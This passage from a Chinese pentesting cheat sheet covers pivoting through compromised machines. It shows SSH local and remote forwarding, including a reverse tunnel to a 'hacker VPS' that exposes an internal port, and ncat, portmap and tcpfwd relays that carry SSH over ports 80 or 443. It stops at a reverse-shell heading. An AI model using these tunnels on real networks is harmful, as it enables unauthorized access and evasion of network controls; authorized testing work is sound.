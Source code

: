     输入 A 机器密码，本地利用 proxychains 等类似工具连接本地的 1111 端口的 sock5 连接即可代理 A 机器的网络。

-   场景 b：如果控制 A、B 机器，A 能够访问 B，且能出网，B 能够访问 C，但不能出网，A 不能访问 C  
    A 机器执行：
    
    1.  `ssh -CNfg -L 2121:CIP:21 root[@BIP](https://github.com/BIP "@BIP")`
    
    输入 BIP 机器密码，访问 A 的 2121 端口即是访问 CIP 的 21 端口。

-   场景 c：控制 A 机器，A 能够访问 B  
    A 机器执行：
    
    1.  `ssh -CNfg -R 2121:BIP:21 root[@hackervps](https://github.com/hackervps "@hackervps")`
    
    输入黑客 VPS 密码，访问黑客 VPS 的 2121 端口即是访问 BIP 的 21 端口。

## nc/ncat

服务端执行监听命令：

```css
ncat --sh-exec "ncat 127.0.0.1 22" -l 80 --keep-open
```

客户端连接服务端的 80 端口即可 SSH 连接：

```bash
SSH root@serverip -p 80
```

## portmap

服务端执行：

```css
portmap -m 1 -p1 80 -h2 127.0.0.1 -p2 22
```

客户端连接服务端的 80 端口即可 SSH 连接：

```bash
SSH root@serverip -p 80
```

## portfw

服务端执行：

```css
tcpfwd 0.0.0.0:443 127.0.0.1:22
```

客户端连接服务端的 443 端口即可 SSH 连接：

```bash
SSH root@serverip -p 443
```

# 反弹 shell
